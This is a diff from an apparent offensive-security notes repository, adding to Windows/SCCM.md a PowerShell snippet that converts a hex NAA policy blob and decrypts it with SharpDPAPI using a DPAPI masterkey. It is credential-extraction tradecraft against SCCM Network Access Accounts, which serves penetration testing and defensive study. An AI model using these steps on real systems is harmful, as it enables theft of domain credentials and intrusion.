

Before and after one commit to ville87/offsec, a Markdown page: Windows/SCCM.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Windows/SCCM.md
+++ b/Windows/SCCM.md
@@ -72,3 +72,10 @@ function UnProtect-PolicySecret {
     return $([System.Text.UnicodeEncoding]::Unicode.GetString($bytePlainText))
 }
 ```
+If you have the masterkey and the NAA policy you can also decrypt with this:
+```powershell
+$str = "<BLOB>"
+$bytes = for($i=0; $i -lt $str.Length; $i++) {[byte]::Parse($str.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber); $i++}
+$b64 = [Convert]::ToBase64String($bytes[4..$bytes.Length])
+SharpDPAPI.exe blob /target:$b64 /mkfile:<PATH TO FILE CONTAINING MASTERKEY GUID:SHA1 PAIR>
+```
````
